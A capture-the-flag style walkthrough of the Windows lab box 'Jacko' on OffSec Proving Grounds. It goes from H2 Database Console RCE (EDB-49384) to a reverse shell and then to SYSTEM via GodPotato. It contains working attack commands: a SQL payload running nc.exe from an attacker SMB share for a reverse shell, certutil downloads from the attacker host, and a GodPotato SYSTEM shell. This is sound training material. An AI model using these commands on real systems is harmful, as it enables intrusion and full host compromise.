

# Jacko — OffSec Proving Grounds Walkthrough

**Platform:** Proving Grounds Practice
**Difficulty:** Intermediate
**OS:** Windows

---

## TL;DR

H2 Database console on port 8082 → EDB-49384 JNI DLL RCE → shell as tony → SeImpersonatePrivilege → GodPotato → NT AUTHORITY\SYSTEM.

---

## Enumeration

```bash
nmap -sV -p- 192.168.195.66
```

**Open Ports:**
| Port | Service | Version |
|------|---------|---------|
| 80 | HTTP | IIS 10.0 (H2 Database Engine redirect) |
| 135 | MSRPC | Microsoft Windows RPC |
| 139/445 | SMB | |
| 8082 | HTTP | H2 Database Console |
| 9092 | JDBC | H2 Database (remote blocked) |

Port 8082 has the **H2 Database Console** — a web-based SQL interface.

---

## Exploitation — H2 Database JNI DLL RCE (EDB-49384)

Using [EDB-49384](https://www.exploit-db.com/exploits/49384), this exploit writes a native DLL to disk using SQL `CSVWRITE` with raw bytes, then loads it via `System.load()` to execute Java/JNI code:

1. Paste the entire SQL exploit into the H2 Console
2. The exploit writes `JNIScriptEngine.dll` to `C:\Windows\Temp\`
3. It then evaluates arbitrary Java expressions

For a reverse shell, use SMB to transfer `nc.exe` (since PowerShell base64 payloads didn't work):

```bash
# Attacker: set up SMB server
impacket-smbserver -smb2support share .
```

```sql
CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("cmd.exe /c //192.168.45.198/share/nc.exe -e cmd.exe 192.168.45.198 4444 ").getInputStream()).useDelimiter("\\Z").next()');
```

Shell as **tony**.

---

## Privilege Escalation — GodPotato (SeImpersonatePrivilege)



**Quirk:** Commands only work properly from `C:\Windows\System32`. Transfer tools using `certutil`:

```cmd
certutil -urlcache -split -f http://192.168.45.198/GodPotato-NET4.exe C:\windows\tasks\GodPotato-NET4.exe
certutil -urlcache -split -f http://192.168.45.198/nc.exe C:\windows\tasks\nc.exe
```

Exploit:

```cmd
.\GodPotato-NET4.exe -cmd "C:\windows\tasks\nc.exe 192.168.45.198 443 -e cmd.exe"
```

**NT AUTHORITY\SYSTEM.** 🎉

---

## Key Takeaways

- **H2 Database Console** can be exploited for RCE via JNI DLL injection — a creative exploit chain
- **impacket-smbserver** is great for transferring files when other methods fail
- **SeImpersonatePrivilege** = GodPotato/PrintSpoofer/JuicyPotato → SYSTEM
- Some Windows boxes have quirks where commands only work from specific directories

---

*Thanks for reading! Follow for more OffSec walkthrough content.*
